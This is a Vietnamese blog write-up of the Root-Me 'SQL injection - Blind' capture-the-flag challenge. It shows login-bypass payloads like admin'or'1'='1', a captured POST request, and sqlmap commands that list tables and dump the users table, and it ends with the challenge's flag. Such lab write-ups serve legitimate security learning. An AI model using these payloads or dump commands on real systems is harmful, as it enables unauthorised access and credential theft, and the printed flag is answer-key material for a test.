 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: SQL injection - Blind
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - SQL Injection 
---
```


# __SQL injection - Blind__

<span>
:octicons-calendar-24: May 03, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch10/][http://challenge01.root-me.org/web-serveur/ch10/]

  [http://challenge01.root-me.org/web-serveur/ch10/]: http://challenge01.root-me.org/web-serveur/ch10/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy password admin.

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Challenge này cung cấp cho ta 1 website login. Ta thử login với account admin/admin thì hiện thông báo `Error : no such user/password`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-blind-01.png#zoom)
  <figcaption>Hình ảnh mô tả website</figcaption>
</figure>

Ta thử tiêm payload vào url nhằm thử tấn công bằng HTTP GET METHOD thì không nhận thấy lỗi từ website :octicons-arrow-right-24: bài này có thể dùng HTTP POST METHOD. Mà đã đùng HTTP GET METHOD thì bật Burp Suite thui nào ::v

### Bước 2: Khai thác website bằng Burp Suite và sqlmap

Khi thử tiêm đơn giản admin = `admin'or'1'='1'--` và password=`admin` thì ngay lập tức hệ thống phản hồi thành user1

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-blind-02.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload</figcaption>
</figure>

Tức là đẫ bị filter :3.

Rồi, ta tiêm tiếp admin = `admin'or'1'='1'` và password=`admin` thì nhận được lỗi.

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-blind-03.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload</figcaption>
</figure>

Và thông qua lỗi này ta biết được hệ quản trị cơ sở dữ liệu đang được dùng là `SQLite3`. Mấu chốt ở đây nè, trên SQLite thì không thể liệt kê cơ sở dữ liệu (csdl) nếu chúng ta dùng sqlmap mà chỉ liệt kê được các bảng trong csdl thôi.

Well, ta sẽ dùng `python sqlmap.py -r ~/Desktop/test/request.txt --tables` với nội dung trong file `request.txt` là nội dung gói tin request được lấy từ Burp Suite. Và cụ thể ở đây phần nội dung gói request của tôi dùng là

<div class="result" markdown>

``` http linenums="1"
POST /web-serveur/ch10/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch10/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.1.605326343.1682713115; _ga_SRYSKX09J7=GS1.1.1683199137.7.1.1683199154.0.0.0
Connection: close

username=admin'or'1'='1'&password=admin
```

</div>

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-blind-04.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả truy xuất table</figcaption>
</figure>

Ta nhận được 1 table mang tên `users`. Tiến hành dump table `users` bằng `python sqlmap.py -r ~/Desktop/test/request.txt -T users --dump`

Dé, và ta đã có được password của admin và là flag cần tìm.

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-blind-06.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả truy xuất thông tin trong table users</figcaption>
</figure>

???+ question "Chậm lại và suy nghĩ"

    Thực chất payload `admin = admin'or'1'='1'-- và password=admin` đã bị biến đổi nhưng thế nào khi gửi lên server?

??? success "Giải quyết chậm lại suy nghĩ"

    Trong bài này tôi có tiêm 1 ảnh thể hiện payload được gửi lên server nhưng hình ảnh không được hiển thị ở cách bình thường, bạn hãy tìm kiếm ảnh đó nhé! 

!!! success "__Flag__"
    e2azO93i

 [^1] Xem hướng dẫn cài đặt sqlmap tại https://sqlmap.org/